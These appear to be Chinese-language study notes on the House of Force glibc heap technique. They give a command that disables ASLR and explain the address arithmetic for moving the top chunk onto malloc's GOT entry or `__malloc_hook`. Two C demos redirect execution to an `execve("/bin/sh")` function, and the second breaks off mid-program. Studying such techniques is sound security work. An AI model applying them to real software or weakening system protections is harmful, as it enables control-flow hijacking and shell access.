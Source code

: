 `echo 0 > /proc/sys/kernel/randomize_va_space`
重启后恢复为2

## 扩展top chunk到低地址
1. 利用溢出修改top chunk的size为-1
2. 提高top chunk指针
本程序测出malloc_got为0x601028，申请完a后top_chunk地址为0x602020
将malloc_got对齐为0x601020，使最后一位为0，为使top_chunk提高为0x601010，从而使下次申请chunk可以分配到malloc_got
需要满足申请的size经过 request2size 后为 0x601010-0x602020=-4112
输入 -4120 即可
3. 申请chunk，即可修改malloc_got

```c
#include<stdio.h>
#include<malloc.h>
#include<stdlib.h>
#include<unistd.h>

void hack()
{
    execve("/bin/sh",0,0);
}

int main()
{
    size_t * a,*b;
    a =(size_t *)malloc(0x10);
    a[3] = -1;
    malloc(-4120);
    b = (size_t *) malloc(0x10);

    b[1] = &hack;
    malloc(0x10);

    return 0;
}
```

## 扩展top chunk到高地址
1. 利用溢出修改top chunk的size为-1
2. 申请chunk，将top_chunk指针置位__malloc_hook-0x10
__malloc_hook地址为0x7ffff7dd1b10，申请完a后top_chunk地址为0x602020
需要使top指针降低 __mallco_hook - 0x10 - 0x602020 = 0x7FFFF77CFAE0
则需要申请 0x7FFFF77CFAD0 大小的堆块
3. 申请chunk，修改__malloc_hook

```c
#include<stdio.h>
#include<malloc.h>
#include<stdlib.h>
#include<unistd.h>

void hack()
{
    execve("/bin/sh",0,0);
}

int main()
{
    size_t * a,*b;
    a =(size_t *)malloc(0x10);
    a[3] = -1;
    malloc(0x7FFFF77CFAD0);
    b = (size_t *) malloc(0x10);
```